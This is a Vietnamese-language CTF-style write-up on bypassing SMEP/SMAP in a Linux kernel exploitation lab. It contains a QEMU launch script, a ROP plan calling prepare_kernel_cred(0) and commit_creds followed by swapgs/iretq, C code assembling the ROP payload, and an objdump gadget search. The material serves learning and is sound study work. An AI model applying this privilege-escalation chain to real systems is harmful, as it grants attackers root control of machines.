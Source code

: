 # part1.1_bypass_smep

## setup

- Mục tiêu của part 1.1 lần này mình sẽ cố gắng bypass smep smap để có thể hiểu rõ hơn phần lý thuyết
- Challenge mình sử dụng lại ở `part 1`
- Một số chỉnh sửa ở `setup.sh`. Mình sẽ bật `smep, smap` và tắt `kaslr`

```bash
#!/bin/sh
qemu-system-x86_64 \
    -m 128M, smep, smep\
    -cpu kvm64 \
    -kernel vmlinuz \
    -initrd initramfs.cpio.gz \
    -hdb flag.txt \
    -snapshot \
    -nographic \
    -monitor /dev/null \
    -no-reboot \
    -append "console=ttyS0 nokaslr nopti quiet panic=1" \
    -s
```

- Khi mình thực hiện lại phần exploit của part 1, lớp bảo vệ smep đã hoạt động:
  ![Alt text](bin/image.png)

## Khai thác

- Tương tự như part 1, mình sẽ sửa `write_module` để bypass smep
- Mục tiêu ta sẽ như sau:

```
ROP into prepare_kernel_cred(0).
ROP into commit_creds(), with the return value from step 1 as parameter.
ROP into swapgs ; ret.
ROP into iretq with the stack setup as RIP|CS|RFLAGS|SP|SS.
```

- Điều kiện tốt nhất nếu ta có gadget `mov rdi, rax; ret` tuy nhiên nếu không gadget tốt nhất, ta sẽ phải set up tuỳ theo các gadget mà ta có:

```c
payload[off++] = pop_rdi_ret;         // return address
    payload[off++] = 0x0;                 // rdi <- 0
    payload[off++] = prepare_kernel_cred; // prepare_kernel_cred(0)
    payload[off++] = pop_rdx_ret;
    payload[off++] = 0x8;                      // rdx <- 8
    payload[off++] = cmp_rdx_jne_pop2_ret;     // cmp rdx, 8 ; jne 0xffffffff81964cbb ; pop rbx ; pop rbp ; ret
    payload[off++] = 0x0;                      // dummy rbx
    payload[off++] = 0x0;                      // dummy rbp
    payload[off++] = mov_rdi_rax_jne_pop2_ret; // mov rdi, rax ; jne 0xffffffff8166fe7a ; pop rbx ; pop rbp ; ret
    payload[off++] = 0x0;                      // dummy rbx
    payload[off++] = 0x0;                      // dummy rbp
    payload[off++] = commit_creds;             // commit_creds(prepare_kernel_cred(0))
```
- 
```
╰─ objdump -j .text -d ./vmlinux | grep iretq | head -1
ffffffff8100c0d9:       48 cf                   iretq
```